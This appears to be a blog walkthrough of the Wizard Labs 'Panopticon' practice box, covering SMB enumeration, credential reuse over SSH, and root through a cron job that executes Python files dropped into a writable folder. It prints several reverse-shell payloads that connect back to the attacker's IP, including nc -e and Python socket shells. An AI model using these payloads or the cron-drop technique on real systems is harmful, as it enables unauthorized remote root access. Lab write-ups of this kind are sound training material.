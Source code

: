 ```yaml
---
layout: post
title: Wizard Labs - Panopticon
date: 2019-04-16 08:32
author: rowbot
comments: true
categories: [Wizard Labs]
---
```

<!-- wp:image {"id":637,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image.png" alt="" class="wp-image-637"/><figcaption> <br><a href="https://labs.wizard-security.net/">https://labs.wizard-security.net</a> </figcaption></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p> I found getting the user on this box very easy, I think it took me &lt; 10 minutes. Then after about another 10 minutes I roughly knew what I had to do to get root but for the guts of 3 hours couldn't figure out why I wasn't getting the cron job to execute my script! I figured it out in the end, I just had to take a step back and re-read the /var/mail/seer log. </p>
<!-- /wp:paragraph -->

<!-- wp:separator -->
<hr class="wp-block-separator"/>
<!-- /wp:separator -->

<!-- wp:paragraph -->
<p>Ran the following nmap scan: nmap -sC -sV -oA all -vv -p- 10.1.1.34. </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":640,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-2.png" alt="" class="wp-image-640"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>What stood out to me was port 80, maybe some interesting directories or a web app attack could be carried out. Port 139 and 445 was SAMBA- always interesting to see what I can access through open shares or vulnerable versions.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Port 80 revealed a website. I didn't poke about the website as it looked quite flat, the only entry point was the contact form - that I could see. I was keen to move on to what I could see from the SAMBA share.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":643,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-3.png" alt="" class="wp-image-643"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I ran smbmap to enumerate the SAMBA share and discover the Public share can be read. <a href="https://guide.offsecnewbie.com/network-pen#smbmap">https://guide.offsecnewbie.com/network-pen#smbmap</a></p>
<!-- /wp:paragraph -->

<!-- wp:html -->
<pre><span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/panopticon </font></span><font color="#3465A4"></font> <font color="#4E9A06">smbmap</font> -H $ip
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.1.1.34...
[+] IP: 10.1.1.34:445	Name: panopticon.wl                                     
	Disk                                                  	Permissions
	----                                                  	-----------
	public                                            	READ ONLY
	IPC$                                              	NO ACCESS
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>I discovered a zip file called old-site.zip.</p>
<!-- /wp:paragraph -->

<!-- wp:html -->
<pre><span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/panopticon </font></span><font color="#3465A4"></font> <font color="#4E9A06">smbmap</font> -R Public -H $ip <font color="#555753"><b>#Recursively list dirs, and files</b></font>
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.1.1.34...
[+] IP: 10.1.1.34:445	Name: panopticon.wl                                     
	Disk                                                  	Permissions
	----                                                  	-----------
	Public                                            	READ ONLY
	.\
	dr--r--r--                0 Sun Jun 17 16:17:11 2018	.
	dr--r--r--                0 Sat Feb 24 19:27:52 2018	..
	-r--r--r--           427943 Sat Feb 24 19:57:46 2018	old-site.zip
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>I downloaded it. As you can see smbmap is a nice little tool. I prefer it to enum4linux - though enum4linux does a few different things.</p>
<!-- /wp:paragraph -->

<!-- wp:html -->
<pre><span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/panopticon </font></span><font color="#3465A4"></font> <font color="#4E9A06">smbmap</font> -R Public -H $ip -A old-site.zip -q <font color="#555753"><b>#downloads a file in quiet mode</b></font>
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.1.1.34...
[+] IP: 10.1.1.34:445	Name: panopticon.wl                                     
	Disk                                                  	Permissions
	----                                                  	-----------
	[+] Match found! Downloading: Public\.\old-site.zip
	Public                                            	READ ONLY
	[+] Starting search for files matching 'old-site.zip' on share Public.
	[+] Match found! Downloading: Public\old-site.zip
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>I knew that I there would be a config file which I could get a password or user from. So I unzipped the file.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":661} -->
<figure class="wp-block-image"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-4.png" alt="" class="wp-image-661"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":662} -->
<figure class="wp-block-image"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-5.png" alt="" class="wp-image-662"/><figcaption>username and password captured.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I remembered that there was an ssh port open and tried to login with those creds.</p>
<!-- /wp:paragraph -->

<!-- wp:html -->
<pre><span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/panopticon </font></span><font color="#3465A4"></font> <font color="#4E9A06">ssh</font> seer@$ip                                                              
seer@10.1.1.34&apos;s password: 
Linux Panopticon 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
<mark>You have new mail.</mark>
Last login: Sun Dec  2 09:18:32 2018 from 10.253.1.0
<font color="#8AE234"><b>seer@Panopticon</b></font>:<font color="#729FCF"><b>~</b></font>$ cat /home/seer/user.txt 
6d3934480b23c0ca3d164cf19fa11946
<font color="#8AE234"><b>seer@Panopticon</b></font>:<font color="#729FCF"><b>~</b></font>$ 
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>I noticed when I logged in that I received a message that I had new mail. I highlighted it above.<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>I knew that mail for the user is located in /var/mail/seer in this instance.  <br>What does it contain, and who/what sent it? Most often the messages contain output of cron jobs, or a system security report by logwatch, or similar things. Time to read it!</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":668,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-6.png" alt="" class="wp-image-668"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>The mail file was very big </p>
<pre><font color="#8AE234"><b>seer@Panopticon</b></font>:<font color="#729FCF"><b>~</b></font>$ ls -la /var/mail/seer 
-rw-rw---- 1 seer mail 23172905 Dec  2 11:36 /var/mail/seer
</pre>
<!-- /wp:paragraph -->

<!-- wp:image {"id":671,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-7.png" alt="" class="wp-image-671"/><figcaption>I'm terrible at reading file sizes and working them out to something I can understand so I turn to Google</figcaption></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I scrolled through and seen reference to a hidden bash script called .lol.sh</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">Subject: Cron &lt;root@Panopticon&gt; bash /var/tmp/.lol.sh
</pre>
<!-- /wp:preformatted -->

<!-- wp:html -->
<pre><font color="#8AE234"><b>seer@Panopticon</b></font>:<font color="#729FCF"><b>~/dev_departement</b></font>$ ls -la /var/tmp/.lol.sh 
-rwx------ 1 root root 125 Jun 27 14:38 <font color="#8AE234"><b>/var/tmp/.lol.sh</b></font>
You have new mail in /var/mail/seer
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>In Seer's home directory there was a folder called dev_departement (spelled incorrectly). Maybe the machine's author is French?</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":673,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-8.png" alt="" class="wp-image-673"/></figure></div>
<!-- /wp:image -->

<!-- wp:html -->
The bad spelling and grammar continues when I looked at dev.txt :)
<pre><font color="#8AE234"><b>seer@Panopticon</b></font>:<font color="#729FCF"><b>~/dev_departement</b></font>$ cat dev.txt 
Hello Seer !! You are the only script developper in this departement ... Like I said you , please drop here all your scripts maybe they can make my life easier :)

Brenda&amp;
<font color="#8AE234"><b>seer@Panopticon</b></font>:<font color="#729FCF"><b>~/dev_departement</b></font>$ 
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>So to summarize what I've found. There looks to be a cronjob running which runs a hidden file called .lol.sh of which I am not able to read. There is a file telling me that any scripts I drop into the /home/seer/dev_departement folder will be run. </p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>This was where I was stuck for a few hours as I looked through the mail file and found a lot of references to a hidden file called .update.sh</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">Subject: Cron &lt;root@Panopticon> /home/seer/.update.sh Subject: Cron &lt;root@Panopticon> /home/seer/.update.sh Subject: Cron &lt;root@Panopticon> /home/seer/.update.sh Subject: Cron &lt;root@Panopticon> /home/seer/.update.sh Subject: Cron &lt;root@Panopticon> /home/seer/.update.sh Subject: Cron &lt;root@Panopticon> /home/seer/.update.sh Subject: Cron &lt;root@Panopticon> /home/seer/.update.sh <br><br>From: root@panopticon.panopticon (Cron Daemon) To: root@panopticon.panopticon Subject: Cron &lt;root@Panopticon> /home/seer/update.sh MIME-Version: 1.0 Content-Type: text/plain; charset=UTF-8 Content-Transfer-Encoding: 8bit X-Cron-Env: &lt;SHELL=/bin/sh> X-Cron-Env: &lt;HOME=/root> X-Cron-Env: &lt;PATH=/usr/bin:/bin> X-Cron-Env: &lt;LOGNAME=root> Message-Id: &lt;E1epgcw-0000CA-BA@Panopticon.Panopticon> Date: Sat, 24 Feb 2018 21:41:02 +0100 </pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p>I thought that 1) the script had to be hidden and called update.sh and 2) that the script had to be a bash file while also being saved in seer's home directory rather than the dev one.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>After creating a .sh file with </p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"> nc -e /bin/sh 10.253.0.255 443 </pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p>inside and starting a listener at my end, nothing was coming back. The script was not being run. I went back and forth moving the file to different locations, using  different ports, getting the script to wget from my webserver to see if it was running it at all -  nothing! Even confirming that the script was executable.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>I reviewed the mail file again and seen this beauty - highlighted below</p>
<!-- /wp:paragraph -->

<!-- wp:html -->
<pre>From: root@panopticon.panopticon (Cron Daemon)
To: root@panopticon.panopticon
Subject: Cron &lt;root@Panopticon&gt; <mark> for f in /home/seer/dev_departement/*.py ; do  /usr/bin/python3 &quot;$f&quot; done </mark>
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: &lt;SHELL=/bin/sh&gt;
X-Cron-Env: &lt;HOME=/root&gt;
X-Cron-Env: &lt;PATH=/usr/bin:/bin&gt;
X-Cron-Env: &lt;LOGNAME=root&gt;
Message-Id: &lt;E1fY9gM-0000EM-02@Panopticon.Panopticon&gt;
Date: Wed, 27 Jun 2018 14:36:22 +0200
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>The script had to be a python script.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>I tried using the following script but it didnt work, probably because it needed to be python3</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"><font color="#8AE234"><b>seer@Panopticon</b></font>:<font color="#729FCF"><b>~/dev_departement</b></font>$ cat script.py 
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.253.0.255",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
<font color="#8AE234"><b>seer@Panopticon</b></font>:<font color="#729FCF"><b>~/dev_departement</b></font>$ 
</pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p>I created a different python script</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"><font color="#34E2E2"><b>import</b></font> socket
<font color="#34E2E2"><b>import</b></font> subprocess
s=socket.socket()
s.connect((<font color="#8AE234"><b>"10.253.0.255"</b></font>,443))
<font color="#34E2E2"><b>while</b></font> True:
     proc = subprocess.Popen(s.recv(1024),  shell=True,stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     s.send(proc.stdout.read() + proc.stderr.read())
</pre>
<!-- /wp:preformatted -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"><font color="#8AE234"><b>seer@Panopticon</b></font>:<font color="#729FCF"><b>~/dev_departement</b></font>$ ls -la
total 16
drwxrwxrwx 2 root root 4096 Dec  2 13:14 <span style="background-color:#4E9A06"><font color="#3465A4">.</font></span>
drwxr-xr-x 7 seer seer 4096 Jun 27 14:17 <font color="#729FCF"><b>..</b></font>
-rw-r--r-- 1 root root  172 Jun 17 17:34 dev.txt
-rwxr-xr-x 1 seer seer  273 Dec  2 13:02 <font color="#8AE234"><b>script.py</b></font>
</pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p>Started a listener on my machine and got a connection back.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"> ⚡  ~/Desktop/panopticon  nc -lnvp 443  
listening on [any] 443 ...
connect to [10.253.0.255] from (UNKNOWN) [10.1.1.34] 33634
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
8b470f864495744fcd8c3dc7b370e889
</pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p>I wanted to see what was in the .lol.sh </p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">cat /var/tmp/.lol.sh
cd /home/seer/dev_departement 
for f in *.py; do  # or wget-*.sh instead of *.sh
  python3 "$f"   || break # if needed 
done
</pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p>And there's the code that ran the python script in.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>So this was a nice easy box to start with and I'm looking forward to exploring the other boxes that wizard labs have.</p>
<!-- /wp:paragraph -->
